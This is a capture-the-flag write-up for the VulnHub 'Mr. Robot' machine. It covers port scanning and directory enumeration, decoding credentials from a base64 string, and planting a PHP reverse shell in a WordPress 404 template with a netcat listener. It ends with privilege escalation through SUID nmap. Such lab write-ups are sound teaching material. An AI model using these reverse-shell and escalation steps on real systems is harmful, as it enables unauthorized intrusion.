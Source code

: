# Mr. Robot

- Attacking machine : Linux kali on IP address 10.10.10.4
- Target machine : [Mr. Robot](https://www.vulnhub.com/entry/mr-robot-1,151/) by Leon Johnson on IP address 10.10.10.14

## Vulnerability analysis

### Port scan with `nmap` 

`nmap -T5 -A -p80,443 10.10.10.14`

```
Starting Nmap 7.91 ( https://nmap.org ) at 2021-02-04 13:22 EST
Nmap scan report for 10.10.10.14
Host is up (0.0010s latency).

PORT    STATE SERVICE  VERSION
80/tcp  open  http     Apache httpd
|_http-server-header: Apache
|_http-title: Site doesn't have a title (text/html).
443/tcp open  ssl/http Apache httpd
|_http-server-header: Apache
|_http-title: Site doesn't have a title (text/html).
| ssl-cert: Subject: commonName=www.example.com
| Not valid before: 2015-09-16T10:45:03
|_Not valid after:  2025-09-13T10:45:03

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.23 seconds
```

Very few services, not even `ssh`. Just the fancy website.

### Directory enumeration with `gobuster`

`gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u 10.10.10.14`

```
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.10.14
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2021/02/04 13:24:51 Starting gobuster
===============================================================
/images (Status: 301)
/blog (Status: 301)
/sitemap (Status: 200)
/rss (Status: 301)
/login (Status: 302)
/0 (Status: 301)
/video (Status: 301)
/feed (Status: 301)
/image (Status: 301)
/atom (Status: 301)
/wp-content (Status: 301)
/admin (Status: 301)
/audio (Status: 301)
/intro (Status: 200)
/wp-login (Status: 200)
/css (Status: 301)
/rss2 (Status: 301)
/license (Status: 200)
/wp-includes (Status: 301)
/js (Status: 301)
/Image (Status: 301)
/rdf (Status: 301)
/page1 (Status: 301)
/readme (Status: 200)
/robots (Status: 200)
/dashboard (Status: 302)
/%20 (Status: 301)
/wp-admin (Status: 301)
/phpmyadmin (Status: 403)
/0000 (Status: 301)
/IMAGE (Status: 301)
/wp-signup (Status: 302)
```

This time, many directories are found and some of them are interesting.

#### `/login` and `/wp-login`

The Wordpress login page (/login redirects to /wp-login).

#### `/0`

The Wordpress blog.

#### `/license`

A provocative CTF-like sentence inserted in order to distract us from the base64 string down the page : `ZWxsaW90OkVSMjgtMDY1Mgo=`

Which turns out to be a hopefully useful login : `elliot:ER28-0652`

#### `/robots`

A redirection to the `robot.txt` file which is very interesting :

```
User-agent: *
fsocity.dic
key-1-of-3.txt
```

Thus, we get the first key at `/key-1-of-3.txt`.

We've also found a wordlist file `fsocity.dic` containing 858160 word (one per line), including the above mentioned elliot's password.

## Exploitation

We log into the Wordpress blog with elliot's credentials and we're in :

![wp.PNG](wp.PNG)

We paste this [pentestingmonkey](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php) reverse shell into the 404 template of the Appearance editor :

![reverse_shell](reverse_shell.PNG)

The ip is set to my attacking machine's and the port is 4444 so I can listen on it with netcat with the following command :

`nc -lvnp 4444`

We trigger the 404 template code by accessing a random URL (like `http://10.10.10.14/skmdfjdsmdfkj`) and we get the following shell :

![daemon_shell](daemon_shell.PNG)

We are logged in as the Wordpress daemon which shouldn't have lots of permissons.

First, I upgrade my shell with this command : `python -c 'import pty; pty.spawn("/bin/bash")'`

Then, we find the home of the user `robot` the daemon hasn't got the permission to read the second key, however there is a md5 hash of `robot`'s password which happens to be `abcdefghijklmnopqrstuvwxyz`, easily cracked with [crackstation.net](crackstation.net).

The second key is ours.

## Privilege Escalation

`linpeas` tells us that the `nmap` program is installed on the system. `nmap` versions between 2.02 and 5.21 have an interactive mode that can be used to execute shell commands.

The version of `nmap` is 3.81 and it has the SUID bit set so it's over :

![key3](key3.PNG)

